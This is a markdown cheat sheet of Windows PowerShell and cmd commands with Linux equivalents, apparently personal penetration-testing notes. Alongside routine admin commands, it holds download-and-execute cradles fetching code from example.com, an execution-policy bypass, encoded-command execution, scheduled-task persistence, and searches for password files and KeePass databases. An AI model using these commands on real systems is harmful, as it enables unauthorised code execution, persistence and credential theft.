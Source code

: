
## windows commands

```powershell
set __COMPAT_LAYER=RunAsInvoker # fakeroot?

powershell.exe -ExecutionPolicy Bypass -File Script.ps1
powershell.exe -c iex ( curl.exe https://example.com/a.ps1 )
powershell.exe -c "cd $env:TEMP; curl http://example.com/a.exe -o a.exe; .\a.exe"

$command = 'whoami'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
# or in linux: echo -n 'whoami' | iconv -f UTF8 -t UTF16LE | base64 -w0
powershell.exe -enc $encodedCommand

powershell.exe "Start-Process -FilePath powershell.exe -ArgumentList '-ExecutionPolicy Bypass -File C:\chaos\script.ps1' -NoNewWindow -RedirectStandardOutput C:\chaos\output.txt -RedirectStandardError C:\chaos\error.txt -PassThru" # & (run in background)


Expand-Archive file.zip                      # unzip file.zip
certutil -decode inputfile outputfile        # base64 -d inputfile > outputfile
Get-FileHash -Algorithm md5 inputFile        # md5sum inputFile       
certutil -hashfile C:\inputFile MD5
Format-Hex inputFile                         # hexdump -C inputFile
... | Select-Object -First 10                # ... | head -10

... | Format-Table                           # for short infos
... | Format-List                            # for long infos
... | ForEach-Object { $_.Attrib = UpdateFunc $_.Attrib } # updating a attrib
... | ? {$_.Attrib -notmatch "disable"}     # remove all elements that contains disable in Attrib


Get-Help    # man in powershell

## running task every 1 minute
schtasks /create  /tn "Test-1min" /f /tr "powershell C:\script.ps1" /sc minute /mo 1
## running task once after 1 minute
$timestamp = New-TimeSpan -Minutes 1
$time = ((get-date) + $timestamp).ToString("HH:mm")
schtasks /create /tn 'RemoteTask' /f /tr 'a.exe' /sc once /st $time

Invoke-WebRequest   # curl alternative

type                # cat 
attrib +h file.txt  # hide file, chmod alternative
cd C:\Users && dir /S *.txt,*kdbx  # find C:\Users -iname "*.txt" (also find by hidden)
Get-ChildItem -Path C:\users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue # find C:\users -iname "*.txt" 2>/dev/null
findstr /spin /c:"password" "C:\directory\*.ini" 2>nul # find C:/directory -iname '*.ini' -exec grep -rin 'password' {} \; 2>/dev/null


osk/sethc/magnify - sethc # shift 5 vezes

whoami /user
net session         # can be used to check if shell has admin privileges
net share           # list smb shares

net user                                # show users
Get-LocalUser                           # show users
wmic useraccount                        # show users with SID
Get-WmiObject Win32_UserAccount         # show users with SID
```